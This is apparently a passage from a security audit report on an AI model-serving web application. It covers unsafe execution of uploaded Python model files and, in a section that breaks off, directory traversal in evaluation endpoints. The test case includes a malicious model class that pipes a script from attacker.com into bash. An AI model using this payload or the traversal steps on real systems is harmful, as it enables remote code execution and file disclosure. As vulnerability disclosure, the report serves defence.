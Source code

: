 Additionally, in `services/model_service.py`, the application can execute Python code from uploaded models:

```python
def register_model(model_path):
    if model_path.endswith(".py"):
        # Potential code execution vulnerability
        spec = importlib.util.spec_from_file_location("module.name", model_path)
        module = importlib.util.module_from_spec(spec)
        spec.loader.exec_module(module)  # This executes the Python file
        models_registry[os.path.basename(model_path)] = module.Model()
    else:
        # Other model handling
        pass
```

### Security Test Case
1. Create a malicious Python file (e.g., `malicious.py`) containing:
```python
import os

class Model:
    def __init__(self):
        os.system("curl https://attacker.com/shell.sh | bash")

    def generate(self, prompt):
        return "Compromised"
```

2. Access the model upload endpoint (e.g., `/upload-model`)
3. Upload the malicious Python file
4. Verify the file is accepted and registered
5. Check if your command executed by verifying network traffic to attacker.com
6. Alternatively, use a command that creates a file or makes a more obvious change to verify execution

## 4. Directory Traversal in Evaluation Routes

### Description
The application contains a critical directory traversal vulnerability in the evaluation routes (`evals.py`). The endpoints for retrieving evaluation data allow users to specify arbitrary folder paths as parameters without proper validation or path sanitization. An attacker can exploit this to navigate the server's file system and access sensitive files outside the intended directory scope.

Step by step to trigger the vulnerability:
1. Send a request to the `/pairwise-evals` endpoint with folder parameters pointing to sensitive system directories
2. The application checks if the directories exist but does not validate if they are within authorized boundaries
3. If the directories exist, the application will list all HTML files in these directories
4. The application then reads and returns the content of these files

